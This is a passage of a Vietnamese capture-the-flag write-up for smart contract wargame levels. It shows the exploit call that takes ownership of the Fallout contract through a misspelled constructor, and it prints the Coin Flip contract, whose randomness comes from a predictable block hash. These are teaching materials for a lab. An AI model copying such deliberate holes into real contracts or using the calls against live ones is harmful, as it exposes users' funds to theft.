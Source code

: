 ```js
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Fallout Solution

- Đơn giản chỉ cần chạy function **Fal1out** là được, lưu ý contract cố tình viết sai chữ *l* thành số *1* nên nó không phải là constructor mà chỉ là một function thông thường có nhiệm vụ là **trao quyền owner**

```js
contract.Fal1out()
```

- Kiểm tra xem đã trở thành owner chưa

```js
await contract.owner()
```

- Submit & all done!

## 3.Coin Flip

Đây là một bài tung đồng xu, nhiệm vụ của chúng ta là phải đoán trúng mặt sấp hoặc ngửa 10 lần liên tiếp.

```js
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

